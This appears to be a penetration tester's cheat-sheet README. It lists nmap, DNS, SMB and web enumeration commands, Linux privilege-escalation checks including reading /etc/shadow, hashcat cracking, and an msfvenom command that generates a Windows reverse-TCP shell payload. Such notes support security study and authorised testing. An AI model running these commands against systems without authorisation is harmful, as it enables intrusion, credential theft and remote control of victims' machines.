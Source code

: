 ## Scanning and Enumeration

#### NMAP
`nmap -sn IP_range`<br>
`nmap -p- -sS -iL Live_Hosts_List`<br>
`nmap -sV -sC -p Open_Ports -iL Live_Hosts_List`<br>

<img width="300" alt="NMAP_top_ports" src="https://github.com/ErvinTista/Paris/assets/13991872/85159f37-8f60-489e-b515-7a8f4c77e8d7">

#### DNS Enumeration
`host domain`<br>
`host -t mx domain`<br>
`host -t txt domain`<br>
`dnsrecon -d domain -t std`<br>
`dnsenum domain`<br>
`nslookup -type=TXT domain IP`<br>

#### TCP/UDP Port Scan
`nc -nvv -w -z IP port-port`<br>

#### SMB Enumeration
`nmap -v -p 139,445 --script smb-os-discovery IP`<br>

#### Web Enumeration
`sudo nmap -p80 --script=http-enum -sV IP` <br>
`gobuster dir -u IP -w /usr/share/wordlists/dirb/common.txt -t 5`<br>
`feroxbuster --url domain --depth 2 --wordlist /usr/share/wordlists/common.txt -x .txt,.jpg`<br>

#### Linux Enumeration
`whoami`<br>
`hostname`<br>
`id`<br>
`cat /etc/passwd`<br>
`cat /etc/shadow`<br>
`cat /etc/os-release`<br>
`uname -a`<br>
`ip a`<br>
`ifconfig`<br>
`route`<br>
`history`<br>
`netstat -ano`<br>
`crontab -l`<br>
`cat /etc/cron*`<br>
`sudo -l`<br>
`env`<br>
`cat /etc/profile`<br>
`cat /etc/bashrc`<br>
`cat ~/.bash_profile`<br>
`cat ~/.bashrc`<br>
`ps aux`<br>
`ps -elf`<br>
`find / -perm -u=s -type f 2>/dev/null`<br>
`find / -perm -4000 -user root -exec ls -ld {} \; 2> /dev/null`<br>

Also use LinPEAS or LinENUM

## Exploit

#### Password Cracking
`hashcat -a 0 -m #hash_type hash.txt dictionary_list.txt`<br>

## Pivoting and Tunneling

## Persistence

## Shells and One Liners
`msfvenom -p windows/x64/shell/reverse_tcp LHOST=IP.Addr.es.ss LPORT=443 -f exe -o staged_reverse_tcp.exe`

## Resources and Links
|Description|Link|
|-----------|----|
|Linux Privesc|https://payatu.com/blog/a-guide-to-linux-privilege-escalation/|
|LinWinMacPEAS|https://github.com/carlospolop/PEASS-ng|
